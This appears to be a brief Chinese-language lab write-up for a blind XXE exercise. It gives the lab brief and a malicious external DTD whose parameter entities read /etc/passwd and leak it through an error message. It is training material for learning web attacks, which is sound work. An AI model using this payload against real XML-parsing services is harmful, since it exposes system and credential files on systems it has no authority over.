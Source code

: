 <img src=".\图片\Snipaste_2023-07-31_12-23-42.png" alt="Snipaste_2023-07-31_12-23-42" style="zoom:80%;" />

## Lab6

```
实验6：利用盲态XXE通过错误消息检索数据
信息：

本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。

解决实验：使用外部DTD触发错误消息，以显示/etc/passwd文件的内容。

本实验包含一个链接，该链接指向可托管恶意DTD的其他域中的漏洞攻击服务器。
```

与上一题差不多

```
上传恶意DTD文件：
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
